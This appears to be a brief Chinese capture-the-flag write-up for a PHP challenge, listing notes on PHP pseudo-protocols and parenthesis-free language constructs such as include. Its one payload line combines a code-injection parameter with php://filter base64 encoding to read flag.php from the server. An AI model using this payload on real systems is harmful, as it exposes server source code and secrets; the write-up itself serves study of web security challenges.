


# 知识点
### php伪协议
[https://segmentfault.com/a/1190000018991087](https://segmentfault.com/a/1190000018991087)<br />[https://www.cnblogs.com/linfangnan/p/13535097.html#:~:text=PHP%20%E4%BC%AA%E5%8D%8F%E8%AE%AE%20%E6%98%AF%20PHP%20%E6%94%AF%E6%8C%81%E7%9A%84%E5%8D%8F%E8%AE%AE%E4%B8%8E%E5%B0%81%E8%A3%85%E5%8D%8F%E8%AE%AE%EF%BC%8C%E5%87%A0%E4%B8%AA%20PHP%20%E6%94%AF%E6%8C%81%E7%9A%84%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%A6%82%E4%B8%8B%E3%80%82.%20%E4%BE%8B%E5%A6%82%E5%9C%A8,%E6%98%AF%E4%B8%80%E7%A7%8D%E8%AE%BF%E9%97%AE%E6%9C%AC%E5%9C%B0%E6%96%87%E4%BB%B6%E7%9A%84%E5%8D%8F%E8%AE%AE%EF%BC%8C%2Fread%3Dconvert.base64-encode%2F%20%E8%A1%A8%E7%A4%BA%E8%AF%BB%E5%8F%96%E7%9A%84%E6%96%B9%E5%BC%8F%E6%98%AF%20base64%20%E7%BC%96%E7%A0%81%E5%90%8E%EF%BC%8Cresource%3Dindex.php%20%E8%A1%A8%E7%A4%BA%E7%9B%AE%E6%A0%87%E6%96%87%E4%BB%B6%E4%B8%BAindex.php%E3%80%82.%20%E9%97%AE%E4%BB%80%E4%B9%88%E8%A6%81%E8%BF%9B%E8%A1%8C%20base64%20%E7%BC%96%E7%A0%81%E5%91%A2%EF%BC%9F.](https://www.cnblogs.com/linfangnan/p/13535097.html#:~:text=PHP%20%E4%BC%AA%E5%8D%8F%E8%AE%AE%20%E6%98%AF%20PHP%20%E6%94%AF%E6%8C%81%E7%9A%84%E5%8D%8F%E8%AE%AE%E4%B8%8E%E5%B0%81%E8%A3%85%E5%8D%8F%E8%AE%AE%EF%BC%8C%E5%87%A0%E4%B8%AA%20PHP%20%E6%94%AF%E6%8C%81%E7%9A%84%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%A6%82%E4%B8%8B%E3%80%82.%20%E4%BE%8B%E5%A6%82%E5%9C%A8,%E6%98%AF%E4%B8%80%E7%A7%8D%E8%AE%BF%E9%97%AE%E6%9C%AC%E5%9C%B0%E6%96%87%E4%BB%B6%E7%9A%84%E5%8D%8F%E8%AE%AE%EF%BC%8C%2Fread%3Dconvert.base64-encode%2F%20%E8%A1%A8%E7%A4%BA%E8%AF%BB%E5%8F%96%E7%9A%84%E6%96%B9%E5%BC%8F%E6%98%AF%20base64%20%E7%BC%96%E7%A0%81%E5%90%8E%EF%BC%8Cresource%3Dindex.php%20%E8%A1%A8%E7%A4%BA%E7%9B%AE%E6%A0%87%E6%96%87%E4%BB%B6%E4%B8%BAindex.php%E3%80%82.%20%E9%97%AE%E4%BB%80%E4%B9%88%E8%A6%81%E8%BF%9B%E8%A1%8C%20base64%20%E7%BC%96%E7%A0%81%E5%91%A2%EF%BC%9F.)
### include绕过括号过滤
[https://www.php.net/manual/zh/function.include.php](https://www.php.net/manual/zh/function.include.php)
### 不需要括号的语言结构
print echo isset unset include require
# 思路
```git
?c=include$_GET["url"]?>&url=php://filter/convert.base64-encode/resource=flag.php
```
<br />base64解码<br />
